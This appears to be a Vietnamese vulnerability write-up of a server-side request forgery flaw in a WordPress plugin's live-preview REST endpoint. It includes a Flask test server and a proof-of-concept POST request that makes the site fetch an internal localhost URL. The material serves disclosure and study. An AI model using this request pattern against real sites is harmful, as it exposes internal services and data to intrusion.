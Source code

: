 Khi gửi yêu cầu **POST** đến endpoint `/wp-json/pbb/v1/live-preview`, hàm `fetch_external_content()` sẽ được thực thi. Hàm này nhận giá trị `url` từ tham số yêu cầu, thực hiện **fetch request** tới địa chỉ đó và trả về **body** của phản hồi.

## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST reuqest đến endpoint

```http
POST /wp-json/pbb/v1/live-preview HTTP/1.1
Host: localhost
...

url=http://localhost:8001/metadata
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")
